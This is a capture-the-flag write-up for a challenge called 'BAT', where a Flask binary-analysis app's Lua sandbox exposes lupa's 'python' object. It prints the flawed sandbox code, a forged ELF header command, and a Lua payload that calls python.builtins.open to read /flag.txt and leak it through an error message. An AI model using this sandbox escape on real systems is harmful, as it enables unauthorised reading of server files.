

# BAT

## Description
> Take a look at my new Binary Analysis Tool (BAT)! I even added a preprocessor to make it cooler!

Tags: _misc_

## Recon

The challenge gave me a Flask web application that analyzes binary files and generates byte frequency statistics. The application accepts two inputs:

1. Binary file upload - Must be an ELF file
2. Lua preprocessor code (optional)

The interesting part is the `preprocess_with_lua` function, which creates a sandboxed Lua environment:

```python
def preprocess_with_lua(binary_path, lua_code):
    lua = LuaRuntime(unpack_returned_tuples=True, register_eval=False, attribute_filter=_filter_attribute_access)
    
    # Add back safe functions and libraries
    safe_env = {
        'error': lua.globals().error,
        'ipairs': lua.globals().ipairs,
        'next': lua.globals().next,
        'pairs': lua.globals().pairs,
        'select': lua.globals().select,
        'tonumber': lua.globals().tonumber,
        'tostring': lua.globals().tostring,
        'type': lua.globals().type,
        'python': lua.globals().python,  # Vulnerability!
        'unpack': lua.globals().unpack,
        'string': lua.globals().string,
        'table': lua.globals().table,
        'math': lua.globals().math,
    }
    # ...
```

The application attempts to create a secure Lua sandbox by:

- Clearing all global variables
- Only exposing specific "safe" functions
- Using an `attribute_filter` to prevent access to private attributes

However, I noticed that the `python` object is included in the safe environment, which provides direct access to Python's builtins and allows for a complete sandbox escape!


## Exploitation

First, I needed to create a valid ELF file to pass the application's file validation:

```bash
printf '\x7fELF\x02\x01\x01\x00' > exploit.elf
```

The vulnerability lies in the exposed `python` object from lupa's `LuaRuntime`. This gives me access to Python's built-in functions, including `open()`, which I can use to read arbitrary files on the system.

I crafted a Lua payload to read `/flag.txt` and exfiltrate it using Lua's `error()` function:

```lua
function(binary_data)
    local file = python.builtins.open('/flag.txt', 'r')
    local flag = file.read()
    error(flag)
    return binary_data
end
```



After uploading the `.elf` file and inserting the payload into the input field, I hit submit and received this error:

```
Lua preprocessing error: [string ""]:4: CLA{lu4_pr3pr0cess0r_wh4t_c0uld_g0_wr0ng_r1ght?_6o300Ilza8vf}
```

The flag was successfully exfiltrated through the error message!


## Flag

`CLA{lu4_pr3pr0cess0r_wh4t_c0uld_g0_wr0ng_r1ght?_6o300Ilza8vf}`
